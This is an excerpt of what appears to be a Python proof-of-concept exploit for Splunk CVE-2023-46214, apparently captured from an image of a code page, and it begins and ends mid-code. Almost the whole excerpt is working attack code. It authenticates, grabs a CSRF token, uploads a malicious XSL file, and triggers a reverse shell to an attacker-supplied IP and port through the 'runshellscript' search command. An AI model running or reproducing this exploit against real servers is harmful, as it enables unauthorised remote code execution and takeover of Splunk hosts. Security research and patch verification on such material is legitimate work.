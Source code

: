 ```python
    exploit_endpoint = f"{url}/en-US/api/search/jobs/{jsid}/results?xsl=/opt/splunk/var/run/splunk/dispatch/{text_value}/shell.xsl"
    response = session.get(exploit_endpoint, verify=False, headers=xslt_headers, proxies=proxies)
    return response.status_code == 200

def trigger_reverse_shell(session, url, username, jsid, csrf_token):
    runshellscript_data = {'search': f'|runshellscript "shell.sh" "" "" "" "" "" "" "" "{jsid}" ""'}
    runshellscript_url = f"{url}/en-US/splunkd/__raw/servicesNS/{username}/search/search/jobs"
    upload_headers = {
        "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0",
        "X-Requested-With": "XMLHttpRequest",
        "X-Splunk-Form-Key": csrf_token,
    }
    response = session.post(runshellscript_url, data=runshellscript_data, headers=upload_headers, verify=False, proxies=proxies)
    return response.status_code == 201

def main():
    parser = argparse.ArgumentParser(description='Splunk CVE-2023-46214 RCE PoC')
    parser.add_argument('--url', required=True, help='Splunk instance URL')
    parser.add_argument('--username', required=True, help='Splunk username')
    parser.add_argument('--password', required=True, help='Splunk password')
    parser.add_argument('--ip', required=True, help='Reverse Shell IP')
    parser.add_argument('--port', required=True, help='Reverse Shell Port')

    args = parser.parse_args()

    session = requests.Session()

    print("[!] CVE: CVE-2023-46214")
    print("[!] Github: https://github.com/nathan31337/Splunk-RCE-poc")


    if not login(session, args.url, args.username, args.password):
        print("[-] Authentication failed")
        exit()

    print("[+] Authentication successful")

    print("[*] Grabbing CSRF token", end="\r")
    if not get_cookie(session, f"{args.url}/en-US"):
        print("[-] Failed to obtain CSRF token")
        exit()

    print("[+] CSRF token obtained")

    csrf_token = session.cookies.get("splunkweb_csrf_token_8000", None)

    malicious_xsl = generate_malicious_xsl(args.ip, args.port)
    uploaded, text_value = upload_file(session, args.url, malicious_xsl, csrf_token)

    if not uploaded:
        print("[-] File upload failed")
        exit()

    print("[+] Malicious XSL file uploaded successfully")

    jsid_created, jsid = get_job_search_id(session, args.url, args.username, csrf_token)

    if not jsid_created:
        print("[-] Creating job failed")
```